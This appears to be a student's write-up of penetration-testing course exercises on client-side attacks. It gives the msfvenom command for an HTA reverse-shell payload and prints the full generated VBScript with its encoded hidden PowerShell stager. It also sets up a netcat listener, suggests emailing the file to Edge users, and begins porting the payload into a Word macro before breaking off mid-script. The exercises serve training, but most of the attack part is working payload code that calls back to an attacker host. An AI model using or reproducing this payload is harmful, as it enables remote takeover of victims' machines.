Exercises

# 13.1.2.3 *


# 13.2.2.1
## 13.2.2.1.1. Use msfvenom to generate a HTML Application and use it to compromise your Windows client.

Use msfvenom to create an HTA payload based on PowerShell.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=4444 -f hta-psh -o /var/www/html/evil.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6640 bytes
Saved as: /var/www/html/evil.hta
```

We can view the contents of evil.hta:
```vbscript
kali@kali:/var/www/html$ cat evil.hta 
<script language="VBScript">
  window.moveTo -4000, -4000
  Set b3o5K9IeLGt = CreateObject("Wscript.Shell")
  Set vySZjGuX4 = CreateObject("Scripting.FileSystemObject")
  For each path in Split(b3o5K9IeLGt.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If vySZjGuX4.FileExists(path + "\..\powershell.exe") Then
      b3o5K9IeLGt.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAUwB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQBtAGUAPQAkAGIAOwAkAHMALgBBAHIAZwB1AG0AZQBuAHQAcwA9ACcALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACAAJgAoAFsAcwBjAHIAaQBwAHQAYgBsAG8AYwBrAF0AOgA6AGMAcgBlAGEAdABlACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAegBpAHAAUwB0AHIAZQBhAG0AKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAJwAnAEgANABzAEkAQQBBAFMAbgBiAFYAOABDAEEANwBWAFcAYgBXAC8AYQBTAEIARAArAG4ARQBqADUARAAxAGEARgBaAEYAcwBpAEcAQQBoAE4AbQBrAGkAVgB6AHUAYgBWAEIAQgBQAEEAdwBRAFEAbwBxAGoAYgAyADIAbAA1AFkAZQA2AG0AOQA1AHEAMwBYAC8AMwA1AGoAcwBOAHYAMABtAHQANgAxAEoANQAwAEYAWQBqADAANwBNAHoAdgB6AHoARABPAHoAdQBFAGwAbwBjADgASgBDAFkAWABmAG8ASABXADYARgB6AHgAZgBuAFoAdwBNAFUAbwBVAEMAUQBDAGcASAAyAGkAMABMAEIAQwA5AHQAdgA1AGIATQB6AGsAQgBmADQASgArAEcAOQBJAE0AMwBWADkAYgByAEIAQQBrAFQAQwB4AGQAMQBkAFAAWQBrAGkASABQAEwAVABlADYAbQBOAHUAUgByAEgATwBIAGkAbQBCAE0AZQBTAEwAUAB3AHAAVABIAHcAYwA0AGMAdQBIADUAeQBXADIAdQBmAEIAWgBLAEgAdwBzAHQAUwBsADcAUgBqAFIAVAAyADkAZQBSADcAVwBQAGgAVQBnADIAZABkAEsALwBIAGIASgBRAEcAVQB6AEwAWABsAEgAQgBKAC8AUABCAEIAbABPAGUAWABsAFUAVwBwACsAUwBsAEIATgBKAFoARQBjAHgAOQB6AEgASgBRAGMAUwBrAFYAWgArAEMASwBuAEIAegA3AHUAMQAxAGcAUwBEAFcASgBIAEwARwBZAHUATAAwADEASQBlAEYAVQB0AGoAYwBNAFkAdQBiAGcAUAAzAGoAYgBZAHcATgB4AG4AVABpAHoASwBrAEEATgA4AEkAcwB5AFQASwBCAFEAZwBtADkAVAA4AHQAQwBtAEoAcwBCAHgARQB6AEYAWQBkAEoAOABKAHgATABCAGEARgBlAGUAcAA0AHYAbABqADgASQBjADIAegBVADAAZABKAHkARQBtAEEAUwAzAHIASQBjAGMAVABXAEoAbwA0ADIAeABNAFoAeABxAFkATgBDAGgAKwBJAFIAZABoAGQAZwBaAGYASwBJAGgATgA1AEMAbABrAEYAdAB3ADEAWgBZAEsAbwBRAEoAcABVAFgAaABkADkAeABJAGYAYgB6AE4ATQBmAHQAVgBJACsAbQBsAEUAVwBnAE4AZQBDAFEAWABvAFkAZwAvAFoARwBrAHcASgA2AEgANABaAEMAZQArAEUAbQBaAGEAZABoAG0AZQB2AFAAUwBBADIAcABlAEwAOAA0AHQAegBOAHkAZQBLAGgANwAzAHkAUwA1ADcAQQA2AG0AeAArAFgARwBPAEkAVABSAHEAdwBtAEIAegAxADMAZwB2AGwAbwBtAEQAQQBPAFkAaQB6AGEAQQArAHYAaABjAGMAbwB3AGYATABpAEsANwBKAEMAWQBVAC8ATgA0AHMALwBOAEsANwBrAHUAYQBDADYAdABiAGgAOQBFAGMANABzAFIAWgB3AEUAbQBXAFMAMABMAE8ATAA1AHEAcAB2AEsAZgBjADcASwBCAFgAUgBMAGkAeABqADUARQBBAGIARgB6ADIAawBtAHYAUQBZAHgAZABpAG8AOABwAGwAbgBLADEAUABnAFEAbABpAGQAawBHAGQAaABxAFkAWQBnAC8AeABGAEwAYQAwADAAagArAFkATgBRAFAAQwB2ADkAcABxAEMAYQBFAE8AagBsAFEAYgB5AGgAUgBEAFYARgBCAEIAKwBmAHQAZwBUAHAAVwBRAFIARAAwADAAYwBBAEEAUQBuAGQANgBCAGUAZwBVAFgAeQBJADUAegA3AFkAegBnACsALwB6ADAAOQBCADIAVQB4AEQAcABGAGMAVgB3AFUAQgBnAGwAMABtADEAMABVAFQASQB3AG8AZABvAHEAQwBHAHMAWQBrADIAMQBJAFQAegBvADUATAA4AFYAdQA0AFIAawBJADUAcwBWAEgATQBjADMAYwBMAE8AYwBjAHgATwA2AC8ATwB3AHAAaABIAGkAUQAxAFYAZwA5AHcAZgB6AFQAVwAyAEMAYQBJAHAARgBFAFcAaABRAHgAeQBzADcAVQAzAGkANQBlAGUASwByAHcASgBSAFIANQBSAEMARgA0AEMAbgBEAFIAUQBDAEoAQwBrAEEASgBrACsANQBFAEUARwBJAGEAZAAzAGwAawBvAG0ANQBIAHEAdwBwAEQAawBEAGwAMgBQAFUAdABpAGoAegBvADgAWQB6AHEAUgArADQAZwBEAHoAdgBpADMAdwBQAE0AeQBYAHgAaQBiAGcAcABGAGoAcwBHAEwAOABLAEMAKwBKAG0AVwA4AEsARgBnAGsANABqAEEAOABVAGwAaABUAEUAdgAyAG4AMAAxADkATQBqAFcATQBjADkAUQBoAG4AaABaAEQAeQA5AHAAaAByAGUANQA2AFMAdQB1AEEAUAByADEATgBDAFoAcQBBAGMASQBZAGcANABwAE4AKwBLAFcASwBDAGgARwBGAC8AWABUAGkATgBDAGUAcQBNADgAawBMAG8ASwB6ADEAUQBQAHEAVwBGAHIASwAxAEoAUgB0ADYAUwBpAEcALwBBAGQAawB5AHUAZABOAFcANgBjACsAKwA2AHkAbwAwAFMATgBuAGUAKwBxAGUAcQB3AGIAbgBVAEYAagAyAE8AbgBVAE4AbAAzAFQAcQBuAEcAegBxAGYAUAA3AGcAYwA2AE4ANQB0AE4AeQBhAGEAcQBkADAAWABqAEsAWgA3AHIAYQBlAFMAVABsADEAYgBSADIAVwBIAGYASgB3AGUAeQBwAHoAbgBTAG4AWABCACsAMAB3ADcAYQBzADcAUQA1AEwAegAzAEcAbgBEAGQAZgAxAGIAbAB4AHoAVgBIAG4AYgBJAHIAMQBKAGYAYQBpAFYAcQA2AGoAWABhAEMAYQA5AGkAYgBiAFYAeQByAFcANABTAGIAYQBkAEkAUgBrAFAAVgA5ADAAVwBmADUANQBhAEYASQAxAGQAeABYAHUAcQAzAEMASwB5ADYAMABWAEwAcQA4AEsATQBnADYANgBxAGIAZgAvAEsAUABuAFIAZABxACsAMABiAHoAbgA3AGEAVQBXADQAbgB0AFoAWABhAFYATgBWADYAMgBMAFIAYQBHAHIAdQBmAGEAcABFADYAVQBLAHgAeABTAHgAdQBPAG0AOQBwAHcAQwBMAEoAcgBUADMARgByAEkASwBOAFYAMQBrAEoARwBuAFQAbQAzAE0ANgBaADYANgB1AGgASgBEAHcAUABrAGEAeABPAHIAUwBtAGIAcgBwADUARQBQAHYAbABvAFEAZwBxAEcAVQBhADcAcQBEAGQAKwB4AGQAYgAwAEsAcwBqAFcASwBoAGQAcAAvAFAAMQBIAHEAMwBWAG4ARwBlAHIARQBPAG4AaQB2AHoAdQB6AEUAcAA2AHQANwBQAFkAYQBYAFkAYgBXADAAMgBkAFYAcABwAGQAcgBkAEYAVwBtADYAUAB4AHUARABXAGIAVwBLAHYAWgA1AEoASABPAEoAdQBQAEsAagBHAEYANwBxAC8AagBnAGcAMgBEAHQAdwBWAG8AOQBLADAAYgBiADAALwAxAGQAeABZAE8AegBiAG8ANwArAEEAeABMAFEANQA2AHEAagAzAEkANwBmAGEAZQBIADIAMwBoAHQAcwBQAEcAYwA0AHUAUgBuAHQAKwB2AHYAbgBLAGwAUABIAGkAbQBLADkAUwBhAGsAQQBYAEMAagBzAGEARABWAHAAdgBDAGoAeQB6ADQAYQB6AGcAYQBMAFkAUgB4AFMASwBEADMATQAzADcANwBjAFcAaQAxAHIAWgBLAEIAMAB3AGsAbABwAEkAMAB1AG4AdQBYAGUARQBvAHgAQgBRAHUATAA3AGoAZQBjAHQAcQBxAGwARABJADcASABlAFQASABxAFEAdQBYAHkARwBtADAAcAB6AGYATgBHAEoAWgBYADEAVgBkAFgAcwB2AEIAVgBVAGYANAAyADQAbgBQAFIAMwBkADAATQB3AG8AUgBHAEEASwBxAFcAZQBqAGoAMAB1AEYAOABzADcANgA3AEsAWgBaAGoAWAA1AFYAMgB0AEQARwBuACsAZQBtAFoAMQB0AHQANQBMAHEAYQBkAGkATwB1ADUAUAAwAEcAUwB1ADYAZABHADEAbgBIAFoASABJAGYANwA0AFAAKwBPAFYAdABhAFEAUABQADgANgAvADQAZgBWAE4AOQBnACsANwB2ADQAUgBoAHUAWgBoAGwALwBJAFAAOABlADgARgB2AFEAZgByADcAeQBVADgAUQA0AGEAQgBxAHcAbABpAGgAKwBIAFMAcgB2AFkANQBCAFIAbwA4AFgAMQAzADcAOABFAFcAcgB2AFoAawAvADYAagArADAAaAA0AFoAZAA5ACsAQwA5AHcAYwBmADQAWABwADIAdABOAEwAeABzAEsAQQBBAEEAPQAnACcAKQApACkALABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkAKQAuAFIAZQBhAGQAVABvAEUAbgBkACgAKQApACkAJwA7ACQAcwAuAFUAcwBlAFMAaABlAGwAbABFAHgAZQBjAHUAdABlAD0AJABmAGEAbABzAGUAOwAkAHMALgBSAGUAZABpAHIAZQBjAHQAUwB0AGEAbgBkAGEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4AVwBpAG4AZABvAHcAUwB0AHkAbABlAD0AJwBIAGkAZABkAGUAbgAnADsAJABzAC4AQwByAGUAYQB0AGUATgBvAFcAaQBuAGQAbwB3AD0AJAB0AHIAdQBlADsAJABwAD0AWwBTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA=",0
      Exit For
    End If
  Next
  window.close()
</script>

```

Open a netcat listener on Kali:
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ nc -lnvp 4444
listening on [any] 4444 ...
```

Access 192.168.119.214/evil.hta from the Windows IE. A pop-up dialog will pop up. Choose 'Run'.


CWe will be presented with another pop-up (Protected View). Again choose 'Run'.


We see a blank screen on  IE.


However, we caught a shell on Kali!



## 13.2.2.1.2. Is it possible to use the HTML Applicaiton attack against Microsoft Edge users, and if so, how?
Yes. Instead of getting the victim to download the malicious .hta file via browser, you can email it to them as an attachment that they open in the *Windows Mail and Calendar* app. If they do not have the latest version of Microsoft Edge and Windows Mail an Calendar app, files can be downloaded without being blocked.
Reference: https://dzone.com/articles/exploiting-a-microsoft-edge-vulnerability-to-steal

# 13.3.2.1
## 13.3.2.1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.

Open Word 2016 on Windows. Create a 'Blank document' -> choose 'File' ribbon -> choose 'Save As' -> choose 'Desktop' -> File name: MacroTest -> Save as type: 'Word Macro-Enabled Document' -> Save.
Here is file name MacroTest's properties:


While the MacroTest document is open:
Choose the 'View' ribbon -> Macros -> View Macros -> Enter Macro name: MyMacro -> Macros in: MacroTest (document) -> Create -> Add the VBA code for the *AutoOpen* procedure, the *Document_Open* procedure, and the *CreateObject* function along with the Wscript.Shell Run method.


Create a Python script to split the evil.hta payload string every 50 characters. I named it split.py
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ cat split.py 
#!/usr/bin/python

str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAUwB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQBtAGUAPQAkAGIAOwAkAHMALgBBAHIAZwB1AG0AZQBuAHQAcwA9ACcALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACAAJgAoAFsAcwBjAHIAaQBwAHQAYgBsAG8AYwBrAF0AOgA6AGMAcgBlAGEAdABlACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAegBpAHAAUwB0AHIAZQBhAG0AKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAJwAnAEgANABzAEkAQQBBAFMAbgBiAFYAOABDAEEANwBWAFcAYgBXAC8AYQBTAEIARAArAG4ARQBqADUARAAxAGEARgBaAEYAcwBpAEcAQQBoAE4AbQBrAGkAVgB6AHUAYgBWAEIAQgBQAEEAdwBRAFEAbwBxAGoAYgAyADIAbAA1AFkAZQA2AG0AOQA1AHEAMwBYAC8AMwA1AGoAcwBOAHYAMABtAHQANgAxAEoANQAwAEYAWQBqADAANwBNAHoAdgB6AHoARABPAHoAdQBFAGwAbwBjADgASgBDAFkAWABmAG8ASABXADYARgB6AHgAZgBuAFoAdwBNAFUAbwBVAEMAUQBDAGcASAAyAGkAMABMAEIAQwA5AHQAdgA1AGIATQB6AGsAQgBmADQASgArAEcAOQBJAE0AMwBWADkAYgByAEIAQQBrAFQAQwB4AGQAMQBkAFAAWQBrAGkASABQAEwAVABlADYAbQBOAHUAUgByAEgATwBIAGkAbQBCAE0AZQBTAEwAUAB3AHAAVABIAHcAYwA0AGMAdQBIADUAeQBXADIAdQBmAEIAWgBLAEgAdwBzAHQAUwBsADcAUgBqAFIAVAAyADkAZQBSADcAVwBQAGgAVQBnADIAZABkAEsALwBIAGIASgBRAEcAVQB6AEwAWABsAEgAQgBKAC8AUABCAEIAbABPAGUAWABsAFUAVwBwACsAUwBsAEIATgBKAFoARQBjAHgAOQB6AEgASgBRAGMAUwBrAFYAWgArAEMASwBuAEIAegA3AHUAMQAxAGcAUwBEAFcASgBIAEwARwBZAHUATAAwADEASQBlAEYAVQB0AGoAYwBNAFkAdQBiAGcAUAAzAGoAYgBZAHcATgB4AG4AVABpAHoASwBrAEEATgA4AEkAcwB5AFQASwBCAFEAZwBtADkAVAA4AHQAQwBtAEoAcwBCAHgARQB6AEYAWQBkAEoAOABKAHgATABCAGEARgBlAGUAcAA0AHYAbABqADgASQBjADIAegBVADAAZABKAHkARQBtAEEAUwAzAHIASQBjAGMAVABXAEoAbwA0ADIAeABNAFoAeABxAFkATgBDAGgAKwBJAFIAZABoAGQAZwBaAGYASwBJAGgATgA1AEMAbABrAEYAdAB3ADEAWgBZAEsAbwBRAEoAcABVAFgAaABkADkAeABJAGYAYgB6AE4ATQBmAHQAVgBJACsAbQBsAEUAVwBnAE4AZQBDAFEAWABvAFkAZwAvAFoARwBrAHcASgA2AEgANABaAEMAZQArAEUAbQBaAGEAZABoAG0AZQB2AFAAUwBBADIAcABlAEwAOAA0AHQAegBOAHkAZQBLAGgANwAzAHkAUwA1ADcAQQA2AG0AeAArAFgARwBPAEkAVABSAHEAdwBtAEIAegAxADMAZwB2AGwAbwBtAEQAQQBPAFkAaQB6AGEAQQArAHYAaABjAGMAbwB3AGYATABpAEsANwBKAEMAWQBVAC8ATgA0AHMALwBOAEsANwBrAHUAYQBDADYAdABiAGgAOQBFAGMANABzAFIAWgB3AEUAbQBXAFMAMABMAE8ATAA1AHEAcAB2AEsAZgBjADcASwBCAFgAUgBMAGkAeABqADUARQBBAGIARgB6ADIAawBtAHYAUQBZAHgAZABpAG8AOABwAGwAbgBLADEAUABnAFEAbABpAGQAawBHAGQAaABxAFkAWQBnAC8AeABGAEwAYQAwADAAagArAFkATgBRAFAAQwB2ADkAcABxAEMAYQBFAE8AagBsAFEAYgB5AGgAUgBEAFYARgBCAEIAKwBmAHQAZwBUAHAAVwBRAFIARAAwADAAYwBBAEEAUQBuAGQANgBCAGUAZwBVAFgAeQBJADUAegA3AFkAegBnACsALwB6ADAAOQBCADIAVQB4AEQAcABGAGMAVgB3AFUAQgBnAGwAMABtADEAMABVAFQASQB3AG8AZABvAHEAQwBHAHMAWQBrADIAMQBJAFQAegBvADUATAA4AFYAdQA0AFIAawBJADUAcwBWAEgATQBjADMAYwBMAE8AYwBjAHgATwA2AC8ATwB3AHAAaABIAGkAUQAxAFYAZwA5AHcAZgB6AFQAVwAyAEMAYQBJAHAARgBFAFcAaABRAHgAeQBzADcAVQAzAGkANQBlAGUASwByAHcASgBSAFIANQBSAEMARgA0AEMAbgBEAFIAUQBDAEoAQwBrAEEASgBrACsANQBFAEUARwBJAGEAZAAzAGwAawBvAG0ANQBIAHEAdwBwAEQAawBEAGwAMgBQAFUAdABpAGoAegBvADgAWQB6AHEAUgArADQAZwBEAHoAdgBpADMAdwBQAE0AeQBYAHgAaQBiAGcAcABGAGoAcwBHAEwAOABLAEMAKwBKAG0AVwA4AEsARgBnAGsANABqAEEAOABVAGwAaABUAEUAdgAyAG4AMAAxADkATQBqAFcATQBjADkAUQBoAG4AaABaAEQAeQA5AHAAaAByAGUANQA2AFMAdQB1AEEAUAByADEATgBDAFoAcQBBAGMASQBZAGcANABwAE4AKwBLAFcASwBDAGgARwBGAC8AWABUAGkATgBDAGUAcQBNADgAawBMAG8ASwB6ADEAUQBQAHEAVwBGAHIASwAxAEoAUgB0ADYAUwBpAEcALwBBAGQAawB5AHUAZABOAFcANgBjACsAKwA2AHkAbwAwAFMATgBuAGUAKwBxAGUAcQB3AGIAbgBVAEYAagAyAE8AbgBVAE4AbAAzAFQAcQBuAEcAegBxAGYAUAA3AGcAYwA2AE4ANQB0AE4AeQBhAGEAcQBkADAAWABqAEsAWgA3AHIAYQBlAFMAVABsADEAYgBSADIAVwBIAGYASgB3AGUAeQBwAHoAbgBTAG4AWABCACsAMAB3ADcAYQBzADcAUQA1AEwAegAzAEcAbgBEAGQAZgAxAGIAbAB4AHoAVgBIAG4AYgBJAHIAMQBKAGYAYQBpAFYAcQA2AGoAWABhAEMAYQA5AGkAYgBiAFYAeQByAFcANABTAGIAYQBkAEkAUgBrAFAAVgA5ADAAVwBmADUANQBhAEYASQAxAGQAeABYAHUAcQAzAEMASwB5ADYAMABWAEwAcQA4AEsATQBnADYANgBxAGIAZgAvAEsAUABuAFIAZABxACsAMABiAHoAbgA3AGEAVQBXADQAbgB0AFoAWABhAFYATgBWADYAMgBMAFIAYQBHAHIAdQBmAGEAcABFADYAVQBLAHgAeABTAHgAdQBPAG0AOQBwAHcAQwBMAEoAcgBUADMARgByAEkASwBOAFYAMQBrAEoARwBuAFQAbQAzAE0ANgBaADYANgB1AGgASgBEAHcAUABrAGEAeABPAHIAUwBtAGIAcgBwADUARQBQAHYAbABvAFEAZwBxAEcAVQBhADcAcQBEAGQAKwB4AGQAYgAwAEsAcwBqAFcASwBoAGQAcAAvAFAAMQBIAHEAMwBWAG4ARwBlAHIARQBPAG4AaQB2AHoAdQB6AEUAcAA2AHQANwBQAFkAYQBYAFkAYgBXADAAMgBkAFYAcABwAGQAcgBkAEYAVwBtADYAUAB4AHUARABXAGIAVwBLAHYAWgA1AEoASABPAEoAdQBQAEsAagBHAEYANwBxAC8AagBnAGcAMgBEAHQAdwBWAG8AOQBLADAAYgBiADAALwAxAGQAeABZAE8AegBiAG8ANwArAEEAeABMAFEANQA2AHEAagAzAEkANwBmAGEAZQBIADIAMwBoAHQAcwBQAEcAYwA0AHUAUgBuAHQAKwB2AHYAbgBLAGwAUABIAGkAbQBLADkAUwBhAGsAQQBYAEMAagBzAGEARABWAHAAdgBDAGoAeQB6ADQAYQB6AGcAYQBMAFkAUgB4AFMASwBEADMATQAzADcANwBjAFcAaQAxAHIAWgBLAEIAMAB3AGsAbABwAEkAMAB1AG4AdQBYAGUARQBvAHgAQgBRAHUATAA3AGoAZQBjAHQAcQBxAGwARABJADcASABlAFQASABxAFEAdQBYAHkARwBtADAAcAB6AGYATgBHAEoAWgBYADEAVgBkAFgAcwB2AEIAVgBVAGYANAAyADQAbgBQAFIAMwBkADAATQB3AG8AUgBHAEEASwBxAFcAZQBqAGoAMAB1AEYAOABzADcANgA3AEsAWgBaAGoAWAA1AFYAMgB0AEQARwBuACsAZQBtAFoAMQB0AHQANQBMAHEAYQBkAGkATwB1ADUAUAAwAEcAUwB1ADYAZABHADEAbgBIAFoASABJAGYANwA0AFAAKwBPAFYAdABhAFEAUABQADgANgAvADQAZgBWAE4AOQBnACsANwB2ADQAUgBoAHUAWgBoAGwALwBJAFAAOABlADgARgB2AFEAZgByADcAeQBVADgAUQA0AGEAQgBxAHcAbABpAGgAKwBIAFMAcgB2AFkANQBCAFIAbwA4AFgAMQAzADcAOABFAFcAcgB2AFoAawAvADYAagArADAAaAA0AFoAZAA5ACsAQwA5AHcAYwBmADQAWABwADIAdABOAEwAeABzAEsAQQBBAEEAPQAnACcAKQApACkALABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkAKQAuAFIAZQBhAGQAVABvAEUAbgBkACgAKQApACkAJwA7ACQAcwAuAFUAcwBlAFMAaABlAGwAbABFAHgAZQBjAHUAdABlAD0AJABmAGEAbABzAGUAOwAkAHMALgBSAGUAZABpAHIAZQBjAHQAUwB0AGEAbgBkAGEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4AVwBpAG4AZABvAHcAUwB0AHkAbABlAD0AJwBIAGkAZABkAGUAbgAnADsAJABzAC4AQwByAGUAYQB0AGUATgBvAFcAaQBuAGQAbwB3AD0AJAB0AHIAdQBlADsAJABwAD0AWwBTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="

n = 50

